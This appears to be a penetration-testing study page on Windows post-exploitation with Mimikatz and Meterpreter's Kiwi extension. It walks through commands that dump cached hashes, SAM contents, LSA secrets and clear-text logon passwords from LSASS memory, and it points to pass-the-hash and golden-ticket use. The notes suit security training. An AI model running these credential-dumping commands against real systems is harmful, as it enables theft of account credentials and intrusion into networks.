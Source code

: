 # Mimikatz
> Mimikatz is pretty much "THE" tool to use in Windows post-exploitation: Password/Hash extraction from memory.

- **IMPORTANT:** Mimikatz will required elevated privileges in order to run correctly.
- LSASS is a system process and so runs with system/admin privileges.

## Contents
- [Intro](#intro)
  - [Mimikatz & Kiwi](#mimikatz--kiwi)
  - [Why are hashes important?](#why-are-hashes-important)
- [Techniques & Tools](#techniques--tools)
  - [Scenario & Set-Up](#scenario--set-up)
  - [Meterpreter Built-In Extension: Kiwi](#meterpreter-built-in-extension-kiwi)
  - [Mimikatz on the Target](#mimikatz-on-the-target)
    - [Upload mimikatz.exe](#upload-mimikatzexe)
    - [Run mimikatz.exe on the Target](#run-mimikatzexe-on-the-target)

## Intro

### [Mimikatz & Kiwi](https://github.com/gentilkiwi/mimikatz#mimikatz)
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes, and Kerberos tickets from memory.
- The SAM (Security Account Manager) database is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
  - `LSA` : Local Security Authority
  - `LSASS` : Local Security Authority Subsystem Service
- We can utilize the pre-compiled mimikatz executable.
  - This means you have to upload the executable to the target machine and run it from there.
- Or if we have access to a meterpreter session on a Windows target, we can utilize the built-in meterpreter extenstion called Kiwi.
  - With Kiwi we don't have to upload files to the target machine.
  - We just run it from metasploit (no footprint on the target hdd).
- Resources: [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki) | [MetaSploit Docs](https://www.offsec.com/metasploit-unleashed/mimikatz/)

### Why are hashes important?
- You may not be able to crack them and get the plain-text passwords.
- You can use them in [pass-the-hash](/07_Post-Exploitation/6_Dump_n_Crack/win_dump_n_crack.md#pass-the-hash) attacks.

----
## Techniques & Tools

### Scenario & Set-Up
- You compromised a Windows target with MetaSploit and have a meterpreter session.
- Do some basic initial enumeration:
```
> sysinfo
> pgrep lsass
  # Note the pid
> migrate [lsass process number]
  # Since we are going to be interacting with the LSASS process, migrate to that specific process
  # This gives us a 64-bit meterpreter session on the target 64-bit architecture (more stable)
  # This gives us more stability when interacting with the LSASS process to dump hashes.
> getuid
  # if we have access as Administrator, no privesc needed
> getprivs
  # confirm we have admin privs
```

### Meterpreter Built-In Extension: Kiwi
> Assuming the same scenario: you have compromised a Windows target with MetaSploit and currently have access via a meterpreter session. Because we are dinkin' around with the LSA, we should migrate our meterpreter session to lsass.exe. That will be more stable.
- Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk (uploading mimiktaz.exe to the target will save it to the hard drive).
```
> load kiwi
> help              # at the bottom of the help file you will get the kiwi module help
> creds_all         # retrieve all credentials
> lsa_dump_sam      # dump the sam database contents
> lsa_dump_secrets  # dump the lsa secrets (unparsed)
```
- This will give you basically the same results as `hashdump` above (copy into a text file: hashes.txt).
- `load kiwi` : Should get visible feedback of successful load
- `creds_all` : will try to get everything; might give you the NTLM has of the administrator account
- `lsa_dump_sam` : This dumps the cached contents of the SAM db
  - REMEMBER: The SAM db is encrypted with a "syskey" and mimikatz/kiwi just gave you that key with this dump.
- `lsa_dump_secrets` : In SOME cases this MIGHT provide you with clear text credentials.
- If you are working within an AD (Active Directory) environment, you can run the kerberos dumps and/or create a golden ticket.
- Handy Kiwil command: `password_change`
  - This is NOT something you'd want to do in an enterprise environment pentest (b/c you'll change an actual account password and/or hash).

### Mimikatz on the Target
> Same scenario... If you wanted, you could upload the mimikatz Windows executable to the target (onto the target's hard drive).

#### Upload mimikatz.exe
- With your meterpreter session, navigate to the root of the target, create a Temp subdir for your files.
```
> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
  # Kali comes with various Windows executables, and mimikatz.exe is one of them.
> shell
  # gets you a cmd on the target
```

#### Run mimikatz.exe on the Target
- In the cmd shell on the target...
```
dir                       # should see mimikatz.exe in your Temp dir
mimikatz.exe              # start it up... you get the mikikatz environment and prompt
privilege::debug          # check your privs
                          # if you get "Privilege | 20 | OK" you have sufficient privs to execute
lsadump::sam              # should give you the cache dump: syskey, samkey, hashes
lsadump::secrets          # same results as with kiwi in msf
sekurlsa::logonpasswords  # IF there are clear-text pwds, you'll see them; else Password: (null).
```
- `sekurlsa::logonpasswords` : Some Windows systems are configured to store users' logon passwords in clear text. Mimikatz can find these.




